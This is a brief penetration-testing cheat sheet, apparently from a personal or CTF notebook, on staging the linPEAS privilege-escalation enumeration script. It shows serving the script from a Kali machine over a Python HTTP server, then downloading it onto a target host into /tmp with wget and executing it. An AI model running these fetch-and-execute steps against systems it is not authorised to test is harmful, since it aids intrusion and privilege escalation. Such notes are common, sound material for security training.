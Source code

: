 # linPEAS
- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh
```
```
chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```
- https://github.com/carlospolop/PEASS-ng
